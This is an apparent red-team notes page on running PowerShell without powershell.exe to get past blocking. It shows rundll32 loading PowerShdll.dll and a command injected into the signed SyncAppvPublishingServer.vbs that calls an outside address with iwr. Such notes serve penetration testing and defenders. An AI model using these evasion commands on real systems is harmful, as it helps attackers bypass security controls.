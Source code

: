 # Powershell Without Powershell.exe

Powershell.exe is just a process hosting the System.Management.Automation.dll which essentially is the actual Powershell as we know it.

If you run into a situation where powershell.exe is blocked and no strict application whitelisting is implemented, there are ways to execute powershell still.

## PowerShdll

```text
rundll32.exe PowerShdll.dll,main
```

![](../.gitbook/assets/pwshll-rundll32.gif)

Note that the same could be achieved with a compiled .exe binary from the same project, but keep in mind that .exe is more likely to run into whitelisting issues.

## SyncAppvPublishingServer

Windows 10 comes with `SyncAppvPublishingServer.exe and` `SyncAppvPublishingServer.vbs` that can be abused with code injection to execute powershell commands from a Microsoft signed script:

```text
SyncAppvPublishingServer.vbs "Break; iwr http://10.0.0.5:443"
```

![](../.gitbook/assets/pwshll-syncappvpublishingserver.png)

![](../.gitbook/assets/pwshll-syncappvpublishingserver.gif)

## References

{% embed url="https://github.com/p3nt4/PowerShdll" %}

{% embed url="https://safe-cyberdefense.com/malware-can-use-powershell-without-powershell-exe/" %}

{% embed url="https://www.youtube.com/watch?v=7tvfb9poTKg" %}

